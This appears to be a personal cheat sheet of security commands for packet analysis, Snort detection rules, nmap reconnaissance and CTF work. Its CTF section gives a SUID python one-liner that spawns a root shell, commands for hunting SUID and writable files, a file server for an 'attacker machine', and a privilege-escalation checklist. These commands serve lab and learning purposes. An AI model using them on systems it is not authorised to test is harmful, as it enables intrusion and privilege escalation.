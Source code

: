 # Useful commands
Collection of useful knowledge, commands, and shortcuts.

## Working with packets

Use `tcpdump` to read .pcap files in the command line. Useful for when you don't have access to WireShark.

```tcpdump -qns 0 -X -r file.pcap```

#### Snort Rules

Detect login attempts with the "Administrator" account and a wrong/no password.

```alert tcp any 21 <> any any (msg: "FAILED LOGIN"; content: "331 Password"; content: "Administrator"; sid: 1000004; rev:1;)```

Dump raw packet data

```sudo snort -v -X -r snort.log.xxxxxxx```

Run Snort as IPS on interfaces eth0 and eth1

```sudo snort -c /etc/snort/snort.conf -q -Q --daq afpacket -i eth0:eth1 -A full```

## Reconnaissance

#### NMAP

Default scan suitable for most networks.

```nmap -sV -sC -O <ip>```

## CTFs

#### Finding flags

Find flag specifying filetype and name and output errors to dev/null

```find / -type f -name <flag> 2>/dev/null```

### Privilege escalation

Refer to [https://gtfobins.github.io/](https://gtfobins.github.io/) for more methods.

##### Find files with SUID permissions

```find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null```

If for example we find that python has SUID permissions, we can move to the python directory and escalate privileges with:

```./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'```

#### Find writable directories/files

```find / -writable -type d 2>/dev/null ```

#### Setup a python http server to download files from attacker machine to target machine.

```python -m http.server```

#### Use gcc to compile a C program

```gcc exploit.c -o exploit```

## Output formatting

#### Cut

```cat``` the contents of /etc/passwd and pass them through ```cut``` to extract the first field delimited by a colon

 ```cat /etc/passwd | cut -d ":" -f 1```

# Methodology

Reminders for achieving results.

### Privilege Escalation

- Check what files you can run as sudo.
- Check for SUID bit set.
- Check for execute permissions when taking over cron jobs.
- Check $PATH for write privileges to any of the folder in $PATH.
- Check if I can modify $PATH
